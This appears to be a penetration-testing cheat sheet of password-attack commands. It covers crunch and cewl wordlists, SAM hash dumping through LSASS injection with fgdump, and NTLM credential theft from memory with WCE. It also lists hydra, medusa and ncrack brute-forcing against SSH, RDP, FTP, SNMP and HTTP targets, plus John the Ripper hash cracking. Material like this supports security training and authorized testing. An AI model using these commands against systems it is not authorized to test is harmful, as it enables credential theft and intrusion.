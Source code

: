 ## Password file generator

### crunch: 
- is a wordlist generator where you can specify a standard character set or a character set you specify.

##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
 #### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
 #### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***

### Password Profiling
##### cewl
  ***cewl <victim_www_url> -d [num] -m [num] -w [file.txt]***
  
### Online password attacks

#### HTTP Brute force attack
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP Brute force attack
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP Brute force attack
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH Brute force attack
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP Brute force attack
- hyrda -L [user_file] -p [password] [victim_ip] ftp

### Usefull flag
-vV : verbose mode
-e nsr : login as password or login as password in reversed order etc
-t : threads

### Password Hash Attack

#### Hash identifier
 - usage: hash-identifier

#### John the ripper

##### MD5
- john --format=raw-md5 --wordlist=rockyou.txt [hash.file]

##### SHA1
- john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]

##### SHA224
- john --format=raw-sha224 --wordlist=rockyou.txt [hash.file]

##### SHA512
- john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]

#### Pass the hash

# //TODO!
